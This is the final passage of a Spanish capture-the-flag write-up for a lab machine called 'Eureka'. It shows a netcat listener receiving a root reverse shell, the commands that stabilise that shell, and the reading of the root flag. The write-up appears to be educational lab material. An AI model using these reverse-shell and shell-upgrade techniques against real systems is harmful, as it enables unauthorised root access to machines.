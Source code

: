 Inmediatamente iniciaremos un listener por el puerto que elegimos para recibir la reverse shell

~~~ bash
nc -lvnp 443                                           
listening on [any] 443 ...
~~~

Al cabo de un minuto, recibiremos la conexión como el usuario `root`

~~~ bash
connect to [10.10.14.132] from (UNKNOWN) [10.10.11.66] 40166
bash: cannot set terminal process group (315936): Inappropriate ioctl for device
bash: no job control in this shell
root@eureka:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@eureka:~#
~~~

Haremos un pequeño tratamiento de la TTY para poder operar con una consola más cómoda

~~~ bash
root@eureka:~# script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
root@eureka:~# ^Z
[1]  + 520480 suspended  nc -lvnp 443
root@parrot eureka # stty raw -echo;fg                  
[1]  + 520480 continued  nc -lvnp 443
                                     reset xterm
~~~

Ya podremos ver la última flag ubicada en el directorio `/root`

~~~ bash
root@eureka:~# cat root.txt 
f84...
~~~
<br>
Gracias por leer este artículo, espero te haya sido de ayuda. Te dejo la cita del día:

> [!quote] Something opens our wings. Something makes boredom and hurt disappear. Someone fills the cup in front of us: We taste only sacredness.
> — Rumi
{: .notice--info}
